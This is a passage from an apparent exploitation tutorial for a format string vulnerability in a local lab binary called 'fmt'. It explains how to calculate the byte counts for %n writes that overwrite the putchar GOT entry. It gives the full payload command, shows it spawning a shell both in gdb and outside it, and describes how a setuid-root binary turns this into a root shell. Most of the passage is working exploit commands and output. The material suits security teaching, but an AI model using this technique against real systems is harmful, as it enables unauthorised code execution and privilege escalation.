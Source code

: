 * We now need to tackle the higher order bytes, so now that means we need to
  write bfff - F910 more bytes to the higher order bytes. But this sum works out
  to a negative figure to fix this we use a trick we do 1bfff - f910 which
  equals c6ef or 50927 in decimal. We also have to adjust the address we are
  writing too by 2 bytes (as we are writing to the higher order bytes. Our input
  string now becomes

```
  gdb-peda$ run $(python -c 'print "\x10\xa0\x04\x08" + "\x12\xa0\x04\x08"').%63750u.%4\$n.%50925u.%5\$n
  
  $ ps
  [New process 8218]
  process 8218 is executing new program: /bin/ps
    PID TTY          TIME CMD
   7883 pts/0    00:00:00 bash
   8211 pts/0    00:00:00 gdb
   8213 pts/0    00:00:00 sh
   8218 pts/0    00:00:00 ps
```
  and we have a shell!! So what happened to our format string, well.....
1. We wrote 4 more bytes for the address of the higher order bytes so the %63754u
   part had to become %63750u
2. we added ,%50925u.%5\$n to the format string the 50925 part is the 50927
   bytes we calculated that we needed to write minus the 2 extra bytes we used
   for the spacers and now we have to write this value to the 5th parameter on
   the stack which is the address of the higher order bytes of the putchar
   address (0x0804a010), we don't need to inspect this address this time as we
   have a shell

Lets just attempt this exploit outside of gdb

```
  $ ./fmt $(python -c 'print "\x10\xa0\x04\x08" + "\x12\xa0\x04\x08"').%63750u.%4\$n.%50925u.%5\$n
  $ ps
    PID TTY          TIME CMD
   7883 pts/0    00:00:00 bash
   8211 pts/0    00:00:00 gdb
   8213 pts/0    00:00:00 sh
   8233 pts/0    00:00:00 sh
   8234 pts/0    00:00:00 ps
```
voila! We have a shell, now we could perhaps to further verify this if you set
the owner of the fmt bin to root (`chown root:root`) and set the suid bit
(`chmod +s fmt`) then you will be able to exploit this an get a root shell

Enjoy!!!
